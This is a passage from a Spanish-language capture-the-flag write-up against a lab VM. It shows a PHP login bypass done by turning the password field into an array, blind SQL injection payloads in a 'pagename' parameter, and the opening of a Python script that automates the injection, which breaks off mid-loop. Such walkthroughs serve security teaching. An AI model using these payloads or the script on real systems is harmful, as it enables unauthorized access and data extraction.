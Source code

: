 Probamos con Burpsuite cambiar el campo ``pass=test`` por ``pass[]=test`` y gracias a esto **logramos autenticarnos sin proporcionar contraseña**, a continuación se nos brinda una flag ``Y29udGludWVUT2Ntcw==`` y un Link que si lo clickeamos nos lleva a ``http://192.168.0.220/imfadministrator/cms.php?pagename=home``.
#### SQLI

Una vez dentro encontramos una sección llamada ``Disavowed list``, que además de ser extraña notamos que las **URL's** de cada sección se indican a través del parámetro ``pagename=`` por lo tanto probaremos una **inyección SQL** ahí.

![[VM 3.png]]

Es vulnerable por lo tanto intentaremos conseguir información de las bases de datos.

- ``192.168.0.220/imfadministrator/cms.php?pagename=home' or substring(database(),1,1)='a``

Empleamos una **Blind SQLI** en donde indicamos que el **primer caracter del nombre de la base de datos** es igual a la letra '*a*', luego cambiamos a ``,2,1`` y colocamos la siguiente letra que creamos que pueda ser posible.

- ``' or substring(database(),2,1)='d``
- ``' or substring(database(),3,1)='m``
- ``' or substring(database(),4,1)='i``
- ``' or substring(database(),5,1)='n``

Nos damos cuenta que cada caracter es correcto porque vemos que la web cambia cuando proporcionamos una letra que posiblemente es real, recordemos que hay que ir desplazándose entre ``,1,1`` ``,2,1`` ``,3,1`` que es lo que represente el **primer**, **segundo** y **tercer** caracter respectivamente.

Creando script para **Blind SQLI**

==Dato a tener en cuenta es que tenemos que arrastrar la Cookie de Sesión==

```python
 #!/usr/bin/python3
 
 from pwn import *
 import requests, signal, sys, time, string
 
 def def_handler(sig, frame):
     print("\n\n[!] Saliendo...")
     sys.exit(1)
 # Ctrl+C
 signal.signal(signal.SIGINT, def_handler)
 
 # Variables globales
 main_url = "http://192.168.0.220/imfadministrator/cms.php?pagename="
 characters = string.ascii_lowercase + "_," + string.digits
 
 def sqli():
 
     headers = {
             'Cookie': 'PHPSESSID=o8nn8uujism6sqisgkdodqv4s1'
     }
 
     data = ''
 
     p1 = log.progress("SQLI")
     p1.status("Iniciando ataque de inyección SQL")
 
     time.sleep(2)
 
     p2 = log.progress("Data")
 
     for position in range(0,200):
         for character in characters:
```